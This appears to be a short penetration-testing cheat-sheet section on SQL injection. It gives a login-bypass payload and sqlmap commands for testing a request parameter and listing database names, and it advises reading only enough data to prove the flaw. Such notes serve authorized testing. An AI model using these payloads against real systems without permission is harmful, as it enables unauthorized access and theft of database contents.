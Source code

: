 #### SQL Injection

A SQL injection attack consists of inserting SQL statements on a SQL query via the input data from the client to the application.

##### Login Bypass
```
' or '1'='1 -- -
```

###### sqlmap
sqlmap can be used to automatically exploit and detect SQL injection vulnerabilities.
Keep in mind that you should only access the least amount of data to prove the existence of a SQL injection.

Test `id` parameter from burp request file:
```
sqlmap -r /home/user/sqli.req.txt -p id --level 5 --risk 2
```

Read the database names (this should be enough to prove SQL injection without reading sensitive customer data)
```
sqlmap -r /home/user/sqli.req.txt -p id --dbs
```


